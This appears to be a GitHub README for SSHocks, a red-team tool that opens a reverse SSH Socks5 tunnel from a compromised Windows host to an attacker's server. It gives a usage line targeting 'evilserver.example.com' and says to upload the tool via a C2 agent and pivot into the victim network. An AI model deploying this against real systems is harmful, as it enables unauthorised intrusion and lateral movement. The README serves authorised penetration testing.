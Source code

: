 <h1>SSHocks v.1.0.0</h1>
                                       
SSHocks was born out of a penetration testing need. On a Red Team engagement, we need to get a Socks5 proxy up and fast. We originally had one working through an SSH tunnel using OpenSSH installed on a Windows 10 target. However, partway through our engagement, the client placed protections that stopped ssh.exe from functioning. I got to work and cobbled together this simple SSH client with full Socks5 support. I wanted it to be a single executable file so it was easy to upload. It's built targeting .NET 6.0. You can retarget as needed. This project can be published via *dotnet* as a single file.

-Example: *dotnet publish -c Release -r win-x64 --self-contained true -p:PublishSingleFile=true*

The latest release is confirmed to work on Windows 10 hosts. It has not yet been tested on other versions of Windows. (I just built it! Give me time man!) If you've tried it on something other than Windows 10, please let me know!

**USAGE:** SSHocks.exe [SSH server] [SSH Port] [username] [path to private key] [remote socks port]

(Ex. SSHocks.exe evilserver.example.com 2222 victimUser C:\Path\to\keyfile\id_ed25519 1080)

**NOTES:**

1. You will need to create the user account on your SSH server. Then, generate a keypair on your SSH server for your victim's user account. **DO NOT SET A PASSWORD ON THE KEY.** SSHocks supports both ed_25519 and RSA keys.

2. Upload the key and SSHocks.exe to the victim host using your C2 agent or whatever other means you might have for uploading sketchy stuff. **(At this time, SSHocks cannot be assembly loaded. I'm working on fixing that. Any assistance is appreciated!)**

3. Execute using your prefered binary execution method.

4. By default, the program will open port 1080 on the victim host as the receiving port for all Socks5 traffic. This can be changed in source as needed.
   
5. Once the client is connected to your attack SSH server and you've verified the proxy port is listening, you can use any proxy aware program or tool to attack the victim's network. Use Proxychains with non-proxy aware tools. Just make sure your proxychains.conf file is properly configured for the correct port and is using socks5.

6. **SHUT DOWN** Since the point was to use this via a C2 impant which is likely to not provide an interactive shell, I baked in a way to gracefully shut the proxy and tunnel down using a remote proxy command. Simply use proxychains or some other means to send:
  
   *curl xxx.xxx*
   
The proxy will receive the connection request and interpret it as a command to shutdown, and will disconnect gracefully.

<h2>To Do:</h2>
- Modify source to be able to be loaded using Assembly Reflection
- Add ability to set local proxy port as a command option
- Add ability to provide the SSH private key as a base64 blob in the command to avoid having to upload one to disk
